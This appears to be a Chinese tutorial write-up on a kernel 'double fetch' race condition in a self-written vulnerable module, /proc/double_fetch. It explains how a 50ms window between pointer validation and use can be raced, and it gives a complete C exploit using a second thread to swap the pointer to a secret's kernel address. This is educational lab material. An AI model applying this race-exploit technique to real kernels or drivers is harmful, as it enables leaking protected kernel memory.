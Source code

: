 - `0x1001`会输出模块中`secret`的地址
- `0x1002`会对参数进行验证，这里的参数是一个结构体指针，拥有两个成员，一个`flag`标志位与一个`buf`指针，当标志位为真且buf指针不能是内核中的`secret`地址，如果`buf`与`secret`内容相同，则输出

那么如何获取这个`secret`内容，可以使用`Shallow Copy`的问题，在`0x1002`中，对buf指针验证与内容验证中间，我写了一个`msleep(50)`来程序堵塞情况，在这`50ms`的时间间隔里，如果修改`buf`指针变成`secret`的地址，则可以成功输出`secret`的内容

如何在这`50ms`内，对`buf`指针进行修改，这就是`Double Fetch`的重点所在

我们知道如今的多任务处理系统，看起来多个程序在同时运行，其实是CPU与操作系统一起营造的假象，事实是由操作系统来调度，当CPU处理程序A时，因为某种原因需要等待，那么CPU转而去处理程序B，回头再来处理A，当 CPU速度足够快时，看起来就是程序A，B同时运行

所以我们需要另一个线程来修改`buf`指针，主线程不断地调用`0x1002`的功能，另一个线程则不断的修改`buf`指针，当主线程中完成了对`buf`的检查后，在那`50ms`的间隔里，另一个线程修改了`buf`指针指向了`secret`，则下面的逐字符比较其实就是自身比较，则可以输出`secret`内容了

![1580283837457](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580283837457.png)

pwn.c内容

```c
// gcc pwn.c -static -lpthread -o pwn 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>
#include <pthread.h>
#define secret_at 0xffffffffa00002b0

struct t{
    long long flag;
    char *buf;
};

char ok = 1;

void change(struct t* p){
    int i;
    while(ok){
        p->buf = secret_at;
    }
}

char junk[] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";

int main(){
    int fd = open("/proc/double_fetch", O_WRONLY);
    ioctl(fd, 0x1001, 0);
    pthread_t t1;
    struct t fake;
    fake.flag = 1;
    fake.buf = &junk;
    pthread_create(&t1, NULL, change, &fake);
    int i;
    for(i = 0; i < 10; i++){
        fake.buf = &junk;
        ioctl(fd, 0x1002, &fake);
    }
    ok = 0;
    pthread_join(t1, NULL);
    close(fd);
    
    return 0;
}
```